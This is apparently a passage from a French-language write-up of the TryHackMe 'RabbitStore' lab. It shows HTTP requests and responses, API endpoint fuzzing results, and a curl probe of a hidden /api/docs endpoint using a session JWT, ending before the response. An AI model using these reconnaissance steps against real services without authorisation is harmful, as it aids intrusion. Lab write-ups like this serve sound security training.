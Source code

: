 ```
{"message":"File stored from URL successfully","path":"/api/uploads/3436b178-0437-4416-9e04-fc73eab848ad"}
```
Et quand je fait un GET sur l'URL j'ai bien le content de mon fichier :
```
GET /api/uploads/3436b178-0437-4416-9e04-fc73eab848ad HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImJsYWJsYUB0ZXN0LmNvbSIsInN1YnNjcmlwdGlvbiI6ImFjdGl2ZSIsImlhdCI6MTc0MTk2OTc1OCwiZXhwIjoxNzQxOTczMzU4fQ.1y3OdontXbJqOngILwBhJ-qz0jQU_kTvZrMdIJIyc3k
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
Oui je suis beaucoup d'inspiration ;)
```
HTTP/1.1 200 OK
Date: Fri, 14 Mar 2025 16:44:14 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: Express
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 14 Mar 2025 16:44:05 GMT
ETag: W/"b-195958aa0a8"
Content-Type: application/octet-stream
Content-Length: 11
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

gegegeggeg

```
Je vois qu'il y a une API, on va test de la fuzz pour voir les paramètres qu'elle peux accepter.
```
register                [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 72ms]
login                   [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 71ms]
uploads                 [Status: 401, Size: 32, Words: 3, Lines: 1, Duration: 84ms]
docs                    [Status: 403, Size: 27, Words: 2, Lines: 1, Duration: 107ms]
```
register,login et uploads, je les connais mais docs non.
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/RabbitStore]
└─$ curl -v -b "jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImJsYWJsYUB0ZXN0LmNvbSIsInN1YnNjcmlwdGlvbiI6ImFjdGl2ZSIsImlhdCI6MTc0MTk2OTc1OCwiZXhwIjoxNzQxOTczMzU4fQ.1y3OdontXbJqOngILwBhJ-qz0jQU_kTvZrMdIJIyc3k" http://storage.cloudsite.thm/api/docs 
* Host storage.cloudsite.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.119.93
*   Trying 10.10.119.93:80...
* Connected to storage.cloudsite.thm (10.10.119.93) port 80
* using HTTP/1.x
> GET /api/docs HTTP/1.1
> Host: storage.cloudsite.thm
> User-Agent: curl/8.12.1
> Accept: */*
> Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImJsYWJsYUB0ZXN0LmNvbSIsInN1YnNjcmlwdGlvbiI6ImFjdGl2ZSIsImlhdCI6MTc0MTk2OTc1OCwiZXhwIjoxNzQxOTczMzU4fQ.1y3OdontXbJqOngILwBhJ-qz0jQU_kTvZrMdIJIyc3k
> 
* Request completely sent off
```